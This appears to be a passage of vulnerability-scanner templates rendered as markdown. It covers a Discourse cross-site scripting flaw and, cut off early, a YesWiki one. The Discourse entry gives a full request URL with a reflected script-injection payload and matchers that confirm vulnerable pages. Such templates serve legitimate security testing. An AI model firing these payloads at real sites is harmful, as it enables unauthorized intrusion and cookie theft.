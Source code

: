 # Discourse - Cross-Site Scripting

## Description

- Discourse contains a cross-site scripting vulnerability. An attacker can execute arbitrary script and thus steal cookie-based authentication credentials and launch other attacks.
- severity - high
- tags - xss,discourse

## Requests

- Method - GET

### URL

- {{BaseURL}}/email/unsubscribed?email=test@gmail.com%27\%22%3E%3Csvg/onload=alert(/xss/)%3E

### Matchers

**Type - status**

- status
  1. 200

**Type - word**

- words
  1. \<svg/onload=alert(/xss/)>
- part - body

**Type - word**

- words
  1. text/html
- part - header

---

# YesWiki \<2022-07-07 - Cross-Site Scripting

## Description

- YesWiki before 2022-07-07 contains a cross-site scripting vulnerability via the id parameter in the AccueiL URL.

- severity - high
- tags - yeswiki,unauth,huntr,cve,cve2022,xss

## Requests

- Method - GET
